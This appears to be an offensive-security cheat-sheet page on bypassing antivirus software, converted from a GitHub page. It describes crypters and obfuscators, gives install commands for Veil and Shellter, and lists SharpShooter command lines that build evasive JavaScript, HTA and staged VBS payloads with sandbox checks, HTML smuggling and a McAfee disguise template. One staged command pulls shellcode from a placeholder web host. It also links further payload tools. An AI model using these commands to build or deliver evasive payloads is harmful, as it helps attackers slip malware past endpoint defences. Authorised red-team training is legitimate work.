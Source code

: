 # Bypassing AV

### Crypters <a id="veil-framework"></a>

Alters executable code with cryptography and adds a decrypting stub that stores the original code for execution. The encrypted code is on disk. The decryption happens in memory. This technique can be very effective against AVs.

### Obfuscators <a id="veil-framework"></a>

Alters executable code with cryptography and adds a decrypting stub that stores the original code for execution. The encrypted code is on disk and the decryption happens in memory. This technique can be very effective against AV.  However, obfuscators are often used in scripts whereas crypters are often used in binaries.

### Veil Framework <a id="veil-framework"></a>

Install on Kali:

```text
apt install veil
/usr/share/veil/config/setup.sh --force --silent
```

Reference: [https://github.com/Veil-Framework/Veil](https://github.com/Veil-Framework/Veil)

### Shellter <a id="shellter"></a>

Source: [https://www.shellterproject.com/download/](https://www.shellterproject.com/download/)

```text
apt install shellter
```

### Sharpshooter <a id="sharpshooter"></a>

Javascript Payload Stageless:

```text
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3
```

Stageless HTA Payload:

```text
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee
```

Staged VBS:

```text
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4
```

Reference: [https://github.com/mdsecactivebreach/SharpShooter](https://github.com/mdsecactivebreach/SharpShooter)

### Donut <a id="donut"></a>

Source: [https://github.com/TheWover/donut](https://github.com/TheWover/donut)

### Vulcan <a id="vulcan"></a>

Source: [https://github.com/praetorian-code/vulcan](https://github.com/praetorian-code/vulcan)

### GreatSCT

Source: [https://github.com/GreatSCT/GreatSCT](https://github.com/GreatSCT/GreatSCT)



